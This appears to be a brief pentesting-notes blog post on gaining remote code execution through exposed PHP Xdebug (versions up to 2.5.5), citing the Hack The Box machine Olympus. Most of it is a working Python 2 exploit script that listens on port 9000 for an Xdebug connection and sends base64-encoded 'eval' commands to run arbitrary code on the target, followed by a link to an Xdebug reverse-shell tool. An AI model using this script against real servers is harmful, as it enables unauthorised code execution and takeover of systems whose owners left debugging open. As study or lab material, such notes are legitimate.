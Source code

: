 ```yaml
---
layout: post
title: PHP XDebug
description: PHP XDebug
summary: PHP XDebug
tags: [php,rce,foothold]
minute: 1
---
```

## Overview
Xdebug is a PHP debugging tool that supports remote debugging of PHP code on the server through source code locally. Xdebug has powerful functions, and there have been many articles about its configuration recently. The idea of digging the attack surface of Xdebug was born a long time ago, and finally I did it today, a day suitable for paddling.

## Vulnerable Versions
* <= 2.5.5

## Example Exploit Scripts
```python
#!/usr/bin/python2
import socket

ip_port = ('0.0.0.0',9000)
sk = socket.socket()
sk.bind(ip_port)
sk.listen(10)
conn, addr = sk.accept()

while True:
    client_data = conn.recv(1024)
    print(client_data)

    data = raw_input('>> ')
    conn.sendall('eval -i 1 -- %s\x00' % data.encode('base64'))
```

* [GitHub - gteissier/xdebug-shell: xdebug reverse shell](https://github.com/gteissier/xdebug-shell)

## Alternatives
* You can use [chrome](https://www.youtube.com/watch?v=7ifJOon5-G8&t=587s) also to exploit this

## References
* HTB Olympus
* https://paper.seebug.org/397/
* [The Exploits of Xdebug in PhpStorm | by Knownsec 404 team | Medium](https://medium.com/@knownsec404team/the-exploits-of-xdebug-in-phpstorm-2ca140e91dc)
